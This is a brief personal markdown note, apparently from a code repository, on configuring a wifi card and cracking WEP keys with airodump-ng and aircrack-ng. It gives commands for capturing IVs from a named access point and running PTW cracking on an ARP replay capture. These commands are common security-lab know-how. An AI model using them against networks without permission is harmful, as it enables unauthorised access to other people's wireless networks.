 # Notes on wifi configs and setup

## Keeping interface names
I was having issues with the external card until adjusting the below.
```bash
$ vim /etc/default/grub
GRUB_CMDLINE_LINUX="net.ifnames=0 biosdevname=0"
```

## airodump-ng
Find surrounding networks, access points and clients
```bash
$ airodump-ng wlan1
```

Begin collection on channel, BSSID and recording to file.

  -`-c`: Select channel number
  -`w`: Write to file
  --`bssid`: MAC address of access point
  -`--ivs`: Save only captured IVs

```bash
$ airodump-ng -c 6 --bssid E0:05:C5:60:2E:65 --ivs -w capture  wlan1
```

## aircrack-ng

Begin cracking IVS file on target BSSID (can perform while airodump-ng is writing).
```bash
$ aircrack-ng capture-01.ivs --bssid E0:05:C5:60:2E:65
```

Invoke PTW WEP cracking method method on an arp replay.
```bash
$ aircrack-ng -z replay_arp-0309-015802.cap
```
